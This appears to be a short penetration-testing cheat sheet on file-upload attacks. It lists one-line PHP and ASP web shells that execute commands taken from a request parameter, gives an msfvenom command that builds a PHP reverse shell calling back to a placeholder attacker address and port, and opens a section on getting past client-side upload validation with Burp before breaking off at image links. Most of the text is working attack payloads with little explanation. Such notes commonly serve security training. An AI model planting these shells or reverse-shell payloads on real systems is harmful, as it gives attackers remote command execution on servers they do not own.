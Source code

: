 # Simple Web Shell

## PHP

```php
<?php system($_REQUEST['cmd']); ?>
```

## ASP

```vbnet
<% eval request('cmd') %>
```

# Simple Reverse Shell

## MSFVenom - PHP

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

# **Bypassing Filters**

## **Client-Side Validation**

### **Back-end Request Modification**

![image.png](../Images/FU_image0.png)

If we capture the upload request with `Burp`, we see the following request being sent by the web application:

![FU_image1.png](../Images/FU_image1.png)
